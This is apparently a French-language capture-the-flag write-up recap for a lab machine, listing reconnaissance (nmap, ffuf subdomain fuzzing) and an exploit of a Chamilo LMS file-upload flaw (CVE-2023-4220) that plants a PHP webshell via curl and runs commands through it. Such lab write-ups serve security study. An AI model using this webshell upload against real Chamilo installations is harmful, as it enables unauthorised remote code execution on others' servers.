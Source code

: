             </li>
        </ul>
    </div>
</div>

---

## 📝 Récapitulatif des commandes

### 🔍 Phase 1 : Reconnaissance réseau

```bash
# 1. Scan rapide de tous les ports
nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23

# 2. Scan détaillé des ports ouverts
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23 | grep '^[0-9]' | cut -d'/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.23
# → Ports 22 (SSH) et 80 (HTTP) ouverts
```

### 🌐 Phase 2 : Énumération web

```bash
# 1. Configuration DNS
echo "10.10.11.23 permx.htb" | sudo tee -a /etc/hosts

# 2. Fuzzing de sous-domaines (Host header)
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ \
     -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -t 200 -ic -fw 18
# → Découverte de lms.permx.htb (Chamilo LMS)

# 3. Ajouter le sous-domaine
echo "10.10.11.23 lms.permx.htb" | sudo tee -a /etc/hosts
```

### 💥 Phase 3 : Exploitation Chamilo (CVE-2023-4220)

```bash
# 1. Créer un webshell PHP simple
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 2. Upload via la vulnérabilité bigUpload
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
# → shell.php uploadé dans /files/

# 3. Tester le webshell
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
# → Confirmation d'exécution de code
```
